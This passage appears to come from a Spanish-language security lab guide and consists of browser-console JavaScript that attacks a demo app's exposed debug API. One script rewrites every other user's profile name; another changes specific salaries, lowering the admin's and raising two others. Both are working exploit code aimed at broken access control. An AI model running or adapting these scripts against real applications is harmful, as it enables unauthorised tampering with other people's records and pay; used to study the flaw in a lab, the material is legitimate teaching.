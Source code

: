 ```javascript
        ...maliciousUpdate,
        fullName: maliciousUpdate.fullName + ` (por ${currentUserData.username})`
      };
      
      console.log(`✅ Usuario ${user.id} (${user.username}) modificado:`);
      console.log(`   Antes: ${originalData.fullName}`);
      console.log(`   Después: ${user.profile.fullName}`);
    } else {
      console.log(`⏭️ Saltando usuario propio (ID: ${user.id})`);
    }
  });
  
  console.log("🏁 Ataque masivo completado");
  console.log("🔄 Navega a /admin para ver todos los cambios");
};

// Ejecutar ataque
modifyAllUsers();
```

#### **Método 3: Modificación Específica de Datos Sensibles**
```javascript
// Manipular salarios específicamente usando acceso directo
const manipulateSalaries = () => {
  if (!window.debugAPI || !window.debugAPI.usersDatabase) {
    console.log("❌ debugAPI no disponible. MÉTODOS ALTERNATIVOS:");
    console.log("   1. Usar formularios de edición en la UI");
    console.log("   2. Interceptar requests en Network tab");
    console.log("   3. Modificar datos via /admin si está accesible");
    return;
  }
  
  const users = window.debugAPI.usersDatabase;
  const salaryUpdates = [
    { id: 1, salary: 50000, reason: "Reducir salario del admin" },
    { id: 3, salary: 150000, reason: "Aumentar salario de James" },
    { id: 4, salary: 200000, reason: "Aumentar salario de Rob" }
  ];
  
  salaryUpdates.forEach(update => {
    const user = users.find(u => u.id === update.id);
    if (user && user.profile) {
      const oldSalary = user.profile.salary;
      user.profile.salary = update.salary;
      
      console.log(`💰 ${update.reason}:`);
      console.log(`   Usuario: ${user.username} (${user.profile.fullName})`);
      console.log(`   Salario anterior: ${oldSalary?.toLocaleString()}`);
      console.log(`   Salario nuevo: ${update.salary.toLocaleString()}`);
    }
  });
  
  console.log("🏁 Manipulación de salarios completada");
  console.log("🔄 Ve a /admin para verificar los cambios");
};

// Ejecutar manipulación
manipulateSalaries();
```
